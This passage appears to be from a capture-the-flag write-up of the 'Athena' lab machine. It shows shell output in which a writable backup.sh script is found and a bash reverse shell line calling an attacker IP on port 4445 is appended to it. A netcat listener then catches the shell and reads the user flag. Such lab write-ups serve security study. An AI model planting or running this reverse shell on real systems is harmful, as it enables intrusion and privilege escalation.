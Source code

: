 ```bash
/usr/share/icons/Yaru/32x32@2x/apps/backups-app.png
/usr/share/icons/Yaru/256x256/apps/backups-app.png
/usr/share/icons/Yaru/24x24/apps/backups-app.png
/usr/share/icons/Yaru/24x24@2x/apps/backups-app.png
/usr/share/icons/Yaru/48x48/apps/backups-app.png
/usr/share/icons/Yaru/32x32/apps/backups-app.png
/usr/share/icons/Yaru/16x16@2x/apps/backups-app.png
```

<br>


```bash
www-data@routerpanel:/usr/share/backup$ ls -la
total 20
drwxr-xr-x   2 athena   www-data  4096 May 28  2023 .
drwxr-xr-x 236 root     root     12288 May 26  2023 ..
-rwxr-xr-x   1 www-data athena     258 May 28  2023 backup.sh
```

<br>
<h3>backup.sh</h3>

```bash
www-data@routerpanel:/usr/share/backup$ cat backup.sh
#!/bin/bash

backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"

zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
```

<br>

```bash
www-data@routerpanel:/usr/share/backup$ echo "bash -i >& /dev/tcp/xx.xxx.xxx.xxx/4445 0>&1" >> backup.sh
```

<br>

```bash
:~/Athena# nc -nlvp 4445
...
athena@routerpanel: cat /home/athena/user.txt
********************e45eb3e1a28
```
